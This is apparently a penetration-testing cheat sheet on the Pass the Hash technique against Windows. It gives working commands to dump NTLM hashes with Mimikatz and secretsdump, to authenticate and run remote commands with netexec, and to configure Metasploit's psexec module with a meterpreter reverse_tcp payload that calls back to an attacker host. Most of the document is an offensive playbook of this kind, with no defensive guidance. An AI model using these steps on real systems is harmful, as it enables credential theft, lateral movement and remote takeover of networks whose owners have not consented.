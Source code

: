 **Pass the Hash** (PtH) is a post-exploitation technique that allows attackers to authenticate to systems without needing plaintext credentials. Instead, attackers use the **hashed version** of a password directly to access resources. This is possible due to weak authentication protocols, primarily in Windows environments, which validate hashes rather than plaintext passwords.

---

## **Key Concepts**

- **Hash Authentication**: Many Windows services accept NTLM hashes as authentication without verifying the plaintext password.
- **Hash Retrieval**: Hashes are extracted from memory, SAM databases, or network traffic using tools like Mimikatz or secretsdump.
- **Lateral Movement**: Attackers use the retrieved hashes to access additional systems, escalating their control within the network.

--- 

## **Obtain Hashes**

- Extract NTLM hashes from a compromised system using tools like:

```bash
mimikatz sekurlsa::logonpasswords
```

Or dump hashes from the SAM database:

```bash
secretsdump.py <target_user>@<target_ip>
```

## **Use Hashes to authenticate**

#### Using netexec

| Option        | Description                                                |
| ------------- | ---------------------------------------------------------- |
| `<target_ip>` | Target machine's IP address.                               |
| `<username>`  | User account.                                              |
| `<NTLM_hash>` |  Hash (format: `<LM_Hash>:<NT_Hash>` or just `<NT_Hash>`). |

```bash
netexec smb <target_ip> -u <username> -H <NTLM_hash>
```

**Check for Administrative Access**: To see if the hash provides administrative privileges:

```bash
netexec smb <target_ip> -u <username> -H <NTLM_hash> --admin
```

**Execute Commands**: If administrative access is confirmed, you can execute commands:

```bash
netexec smb <target_ip> -u <username> -H <NTLM_hash> -x "whoami"
```

#### Using Metasploit

1. **Search for a Suitable Module**: Use the `psexec` module, which supports NTLM hashes:

```bash
search psexec
use exploit/windows/smb/psexec
```

2. **Configure the Module**: Set the target information and hash:

```bash
set RHOSTS <target_ip>
set SMBUser <username>
set SMBPass <NTLM_hash>
set SMBDomain .
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <attacker_ip>
set LPORT <attacker_port>
```

3. **Execute the Exploit**: Run the exploit to establish a session:

```bash
exploit
# After a successful session, use `meterpreter` commands to gather information or escalate privileges:
meterpreter > sysinfo
meterpreter > getuid
```